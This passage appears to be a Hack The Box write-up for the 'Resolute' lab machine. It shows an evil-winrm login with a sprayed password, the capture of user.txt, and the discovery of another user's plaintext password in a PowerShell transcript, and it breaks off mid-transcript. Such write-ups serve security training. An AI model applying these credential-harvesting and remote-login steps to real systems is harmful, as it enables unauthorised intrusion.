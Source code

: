    We got a match! User melanie has the password Welcome123!

4. Login as melanie with evil-winrm and grab user.txt

    root@p3:/opt/htb/machines/resolute# evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!

    *Evil-WinRM* PS C:\Users\melanie\Documents> whoami
      megabank\melanie
    *Evil-WinRM* PS C:\Users\melanie\Desktop> cat user.txt
      0c3b****************************

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Enumerating within the box we find following dirs under C:\Users, however we don't have access to any of them.
    *Evil-WinRM* PS C:\Users> dir
    Directory: C:\Users
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        9/25/2019  10:43 AM                Administrator
    d-----        12/4/2019   2:46 AM                melanie
    d-r---       11/20/2016   6:39 PM                Public
    d-----        9/27/2019   7:05 AM                ryan

2. Under C:\ we find a hidden directories PSTranscripts\20191203 and within a .txt-file containing user ryan's credentials.
    *Evil-WinRM* PS C:\PSTranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
      **********************
      Command start time: 20191203063515
      **********************
      PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
      >> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!

      if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"
      >> CommandInvocation(Out-String): "Out-String"
      >> ParameterBinding(Out-String): name="Stream"; value="True"
      **********************
      Windows PowerShell transcript start
      Start time: 20191203063515
      Username: MEGABANK\ryan
      RunAs User: MEGABANK\ryan
      Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
      Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
      Process ID: 2800
      PSVersion: 5.1.14393.2273
      PSEdition: Desktop
      PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
      BuildVersion: 10.0.14393.2273
      CLRVersion: 4.0.30319.42000
      WSManStackVersion: 3.0
      PSRemotingProtocolVersion: 2.3
      SerializationVersion: 1.1.0.1
      **********************
      **********************
      Command start time: 20191203063515